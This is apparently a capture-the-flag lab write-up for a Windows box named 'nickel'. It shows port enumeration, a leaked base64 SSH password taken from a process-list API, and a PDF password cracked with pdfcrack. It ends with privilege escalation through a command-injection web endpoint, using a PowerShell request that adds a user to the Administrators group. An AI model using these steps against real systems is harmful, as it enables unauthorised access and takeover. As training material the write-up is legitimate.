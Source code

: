 # Network Enumeration

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8089/tcp  open  unknown
33333/tcp open  dgi-serv
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

## Ports get more information

<img src="../Images/image-20230818101828562.png" alt="image-20230818101828562" style="zoom:80%;" />

# Port Enumeration

## Port 21

Can't login as anonymous

<img src="../Images/image-20230818102835985.png" alt="image-20230818102835985" style="zoom:80%;" />

## Port 80

Return code 502.

<img src="../Images/image-20230818102909226.png" alt="image-20230818102909226" style="zoom:80%;" />

## Port 5040 didn't get any response

<img src="../Images/image-20230818103011157.png" alt="image-20230818103011157" style="zoom:80%;" />

<img src="../Images/image-20230818103017410.png" alt="image-20230818103017410" style="zoom:80%;" />

## Port 8090

Port 8090 shows 3 buttons, but that will navigate to the 169's IP range port of 33333, can't access.

<img src="../Images/image-20230818103112197.png" alt="image-20230818103112197" style="zoom:80%;" />



## Port 33333

When directly access 33333 port, the message return `Invalid Token`.

<img src="../Images/image-20230818103322286.png" alt="image-20230818103322286" style="zoom:80%;" />

Also it's return if we use `GET` to access the `list-current-deployments`, `list-running-procs`, `list-avtive-nodes`.

<img src="../Images/image-20230818103519492.png" alt="image-20230818103519492" style="zoom:80%;" />

<img src="../Images/image-20230818103535276.png" alt="image-20230818103535276" style="zoom:80%;" />

<img src="../Images/image-20230818103548252.png" alt="image-20230818103548252" style="zoom:80%;" />

So change the request method type to try. Then get response from `list-running-procs`.  `list-current-deployments` and `list-avtive-nodes` not response.

<img src="../Images/image-20230818103816556.png" alt="image-20230818103816556" style="zoom:80%;" />

```powershell
HTTP/1.1 200 OK
Content-Length: 2725
Server: Microsoft-HTTPAPI/2.0
Date: Fri, 18 Aug 2023 02:36:44 GMT
Connection: close

name        : System Idle Process
commandline : 
name        : System
commandline : 
name        : Registry
commandline : 
name        : smss.exe
commandline : 
name        : csrss.exe
commandline : 
name        : wininit.exe
commandline : 
name        : csrss.exe
commandline : 
name        : winlogon.exe
commandline : winlogon.exe
name        : services.exe
commandline : 
name        : lsass.exe
commandline : C:\Windows\system32\lsass.exe
name        : fontdrvhost.exe
commandline : "fontdrvhost.exe"
name        : fontdrvhost.exx
commandline : "fontdrvhost.exe"
name        : dwm.exe
commandline : "dwm.exe"
name        : LogonUI.exe
commandline : "LogonUI.exe" /flags:0x2 /state0:0xa3bd2855 /state1:0x41c64e6d
name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh
name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws8089.ps1
name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws33333.ps1
name        : Memory Compression
commandline : 
name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4
name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4
name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4
name        : FileZilla Server.exe
commandline : "C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe"
name        : sshd.exe
commandline : "C:\Program Files\OpenSSH\OpenSSH-Win64\sshd.exe"
name        : VGAuthService.exe
commandline : "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
name        : vm3dservice.exe
commandline : C:\Windows\system32\vm3dservice.exe
name        : vmtoolsd.exe
commandline : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
name        : vm3dservice.exe
commandline : vm3dservice.exe -n
name        : dllhost.exe
commandline : C:\Windows\system32\dllhost.exe /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235
name        : msdtc.exe
commandline : C:\Windows\System32\msdtc.exe
name        : WmiPrvSE.exe
commandline : C:\Windows\system32\wbem\wmiprvse.exe
name        : MicrosoftEdgeUpdate.exe
commandline : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /c
name        : SgrmBroker.exe
commandline : 
name        : SearchIndexer.exe
commandline : C:\Windows\system32\SearchIndexer.exe /Embedding
name        : WmiApSrv.exe
commandline : C:\Windows\system32\wbem\WmiApSrv.exe
```

Get user `ariah` password is `Tm93aXNlU2xvb3BUaGVvcnkxMzkK` and this password is base64 encoded, so password is `NowiseSloopTheory139`, try to login as `ssh`. 

<img src="../Images/image-20230818104830777.png" alt="image-20230818104830777" style="zoom:80%;" />

Login to user `ariah`.

# PE

Check the ftp folder.

<img src="../Images/image-20230818110512687.png" alt="image-20230818110512687" style="zoom:80%;" />

There is a pdf file live in ftp. Use ftp to get this pdf file.

<img src="../Images/image-20230818110604841.png" alt="image-20230818110604841" style="zoom:80%;" />

But this pdf was protected by password. So use `pdfcrack` to brute force.

<img src="../Images/image-20230818110719154.png" alt="image-20230818110719154" style="zoom:80%;" />

Get the password is `ariah4168`.

<img src="../Images/image-20230818110748663.png" alt="image-20230818110748663" style="zoom:80%;" />

The pdf file shows the notes, we know there is port of 80 open. Try to use curl to get some information.

<img src="../Images/image-20230818113233269.png" alt="image-20230818113233269" style="zoom:80%;" />

Ah, we can know this service running as Administrator. So that can use that to PE.

Use the `Invoke-WebRequest` to get the output.

```powershell
$Resp = Invoke-WebRequest 'http://nickel/?whoami' -UseBasicParsing
$Resp = Invoke-WebRequest 'http://nickel/?net localgroup Administrators ariah /add' -UseBasicParsing
```

<img src="../Images/image-20230818114000452.png" alt="image-20230818114000452" style="zoom:80%;" />

Now can login to ariah as administrator.

<img src="../Images/image-20230818114142298.png" alt="image-20230818114142298" style="zoom:80%;" />





